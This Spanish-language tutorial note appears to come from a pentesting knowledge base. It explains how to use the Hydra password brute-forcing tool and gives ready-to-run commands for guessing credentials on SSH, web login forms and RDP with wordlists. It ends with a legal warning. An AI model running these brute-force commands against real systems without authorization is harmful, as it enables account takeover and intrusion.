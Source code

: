 ## 📌 **Uso Básico**

La sintaxis básica de [[Hydra🐉]] es:

`hydra -l <usuario> -P <archivo_de_contraseñas> <objetivo> <servicio>`

Ejemplo atacando SSH en una máquina:

`hydra -l admin -P rockyou.txt 192.168.1.10 ssh`

- `-l admin` → Usuario objetivo.
- `-P rockyou.txt` → Lista de contraseñas.
- `192.168.1.10` → Dirección IP del objetivo.
- `ssh` → Servicio a atacar.

## 📌 **Opciones Útiles**

|Opción|Descripción|
|---|---|
|`-L users.txt`|Usar un archivo con múltiples nombres de usuario.|
|`-P passwords.txt`|Usar una lista de contraseñas en vez de solo una.|
|`-t 4`|Número de intentos en paralelo (por defecto es 16).|
|`-V`|Muestra cada intento realizado.|
|`-f`|Detiene el ataque al encontrar una credencial válida.|

Ejemplo para probar múltiples usuarios:

`hydra -L users.txt -P passwords.txt 192.168.1.10 ssh`

## 📌 **Ataques a Formularios Web**

Si un sitio web tiene autenticación por formulario (ejemplo, login en HTTP POST), puedes hacer:

`hydra -L users.txt -P passwords.txt 192.168.1.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`

Donde:

- `/login.php` → Página del formulario.
- `user=^USER^&pass=^PASS^` → Parámetros de usuario y contraseña.
- `F=incorrect` → Texto que indica fallo de autenticación.

Si un sitio se hace mediante petición GET, puedes hacerlo de la siguiente manera:

`hydra -L users.txt -P passwords.txt 192.168.1.10 http-get /`

Donde:

- `/` → Pagina donde aparece el inicio de sesión.

## 📌 **Ataque contra RDP (Escritorio Remoto)**

Si el objetivo usa Windows con RDP habilitado:

`hydra -L users.txt -P passwords.txt 192.168.1.10 rdp`

Si el objetivo usa Windows con RDP habilitado en otro puerto:

`hydra -L users.txt -P passwords.txt 192.168.1.10 rdp -s 1234`

## 📌 **Alternativas a Hydra**

- **Medusa**: Similar a Hydra, pero con más control sobre los ataques.
- **Ncrack**: Especializado en ataques a redes.
- **John the Ripper**: Para descifrar hashes de contraseñas.

## 📌 **Consideraciones Legales**

⚠️ **El uso de Hydra sin autorización es ilegal y puede llevarte a problemas legales**. Úsalo solo en entornos controlados, como laboratorios de pruebas o con permiso explícito.